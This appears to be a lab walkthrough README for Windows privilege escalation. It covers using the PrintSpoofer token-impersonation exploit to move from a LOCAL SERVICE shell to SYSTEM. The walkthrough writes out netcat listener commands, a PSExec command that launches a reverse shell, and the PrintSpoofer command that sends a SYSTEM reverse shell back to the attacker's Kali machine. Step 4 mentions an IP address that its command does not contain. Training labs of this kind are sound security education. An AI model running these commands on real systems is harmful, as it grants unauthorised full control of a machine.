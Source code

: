 # 🐾 17. Token Impersonation - PrintSpoofer

## 📜 Task Description
In this task, we will use the PrintSpoofer exploit to escalate privileges to `SYSTEM` using token impersonation. We will first gain a shell with the `LOCAL SERVICE` account privileges, and then use PrintSpoofer to escalate privileges to `SYSTEM`.

---

## 🔍 Step 1: Set up a listener on Kali
First, we need to set up a listener on Kali to wait for connections from the target machine. Run the following command on Kali:

'`sudo nc -lvnp 53`'

---

## 🔑 Step 2: Obtain a shell with `LOCAL SERVICE` account privileges
Log in to the system via RDP as an administrator. Open a command prompt with administrator rights (right-click -> "Run as administrator"). Then, use `PSExec64.exe` to run `reverse.exe` with `LOCAL SERVICE` account privileges:

'`C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`'

After executing this, you should receive the first reverse shell with `LOCAL SERVICE` privileges on Kali.

---

## 📝 Step 3: Set up a second listener on Kali
Next, set up a second listener on Kali to listen for the second reverse shell with `SYSTEM` privileges:

'`sudo nc -lvnp <port>`'

---

## 🎯 Step 4: Run the PrintSpoofer exploit
In the reverse shell running with `LOCAL SERVICE` privileges, run the PrintSpoofer exploit to escalate privileges to `SYSTEM`. Replace the IP address with your Kali IP:

'`C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i`'

This step should create the second reverse shell with `SYSTEM` privileges, which will connect to the listener on Kali.
![image](https://github.com/user-attachments/assets/e03e7f89-b68d-4b74-bbbd-f2ea31b06bb6)

---

## 🎉 Congratulations!
You have successfully used the PrintSpoofer exploit to escalate privileges and obtain a reverse shell with `SYSTEM` privileges! 🎊
